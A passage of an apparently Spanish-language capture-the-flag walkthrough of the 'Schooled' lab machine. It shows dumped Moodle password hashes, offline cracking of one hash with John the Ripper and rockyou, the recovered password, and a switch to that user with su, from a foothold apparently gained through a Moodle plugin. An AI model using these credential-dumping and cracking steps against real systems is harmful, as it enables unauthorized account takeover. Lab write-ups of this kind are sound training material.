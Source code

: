 ```
higgins_jane@staff.schooled.htb	higgins_jane	$2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel@staff.schooled.htb	phillips_manuel	$2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne@staff.schooled.htb	carter_lianne	$2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
parker_dan89@student.schooled.htb	parker_dan89	$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
parker_tim89@student.schooled.htb	parker_tim89	$2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
pedro@student.schooled.htb	pedro	$2y$10$LOSIUXBGXfXNS1qCyTbI0.n7yD//VfsEMbJzaT9X.y.fVN70FidVW
```

Si nos fijamos en el directorio `/home`, vemos que `jamie` es un `usuario`

```
[www@Schooled /home]$ ls
jamie
steve
```

Vamos a intentar `crackear` la `contraseña` de `jamie`, para hecho creamos un `archivo` llamado `hash` con el hash de `jamie`

```
jamie@staff.schooled.htb	admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```

`Crackeamos` el `hash` y `obtenemos` la `contraseña`

```
# john -w:rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)     
1g 0:00:01:37 DONE (2024-08-14 01:27) 0.01030g/s 143.1p/s 143.1c/s 143.1C/s goodman..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Nos `convertimos` en el usuario `jamie`

```
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ su jamie
Password:!QAZ2wsx
whoami
jamie
```

`Observamos` que el `path` en la `máquina víctima` es muy `reducido`

```
echo $PATH
/sbin:/bin:/usr/sbin:/usr/bin
```
